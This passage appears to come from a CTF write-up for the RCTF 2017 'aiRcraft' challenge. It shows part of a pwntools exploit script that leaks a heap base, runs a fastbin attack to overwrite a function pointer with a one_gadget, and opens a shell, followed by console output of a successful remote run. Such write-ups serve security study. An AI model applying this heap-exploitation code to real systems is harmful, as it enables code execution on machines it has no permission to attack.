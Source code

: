     heap_base = u64(listPlanes(2).split("by ")[2][0:6].ljust(8,'\0'))-0x2e0
    heap_target = heap_base+0x170 # fnc ptr for plane G
    if heap_target < 0x560000000000 or heap_base < 0x560000000000:
        log.failure("heap addr needs to start with 0x56! try again.")
        sys.exit(1)
    log.success("heap base found at: "+hex(heap_base)) 
    log.success("target func ptr found at: "+hex(heap_target)) 
    
    ## FASTBIN ATTACK ##
    log.info("starting fastbin attack...")
    sellPlane("D")
    sellPlane("E")
    sellAirport(2)
    addPlane(4, p64(heap_target-0x30+0xd))
    addPlane(4, "F")
    addPlane(4, "G")
    # pause()
 
    payload = "A"*3
    payload += p64(heap_base+0x10) # keep original prev plane ptr to avoid crash
    payload += p64(0x0)
    payload += p64(one_gadget) # overwrite free fnc ptr
    addAirport(0x48, payload)
    
    ## TRIGGER FNC POINTER ##
    log.info("triggering corrupted func ptr...")
    sellPlane("G")

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/rctf17/aircraft/aiRcraft'], env={"LD_PRELOAD":"./libc.so.6"})
        #r = process(['/home/vagrant/CTFs/rctf17/aircraft/aiRcraft'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight text %}
➜  aircraft python solve.py aircraft.2017.teamrois.cn 9731
[*] For remote: solve.py HOST PORT
[+] Opening connection to aircraft.2017.teamrois.cn on port 9731: Done
[*] '/home/vagrant/CTFs/rctf17/aircraft/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc base found at: 0x7f25c6703000
[+] one_gadget found at: 0x7f25c67f3567
[+] heap base found at: 0x56143527c000
[+] target func ptr found at: 0x56143527c170
[*] starting fastbin attack...
[*] triggering corrupted func ptr...
[*] Switching to interactive mode
$ ls
aiRcraft
bin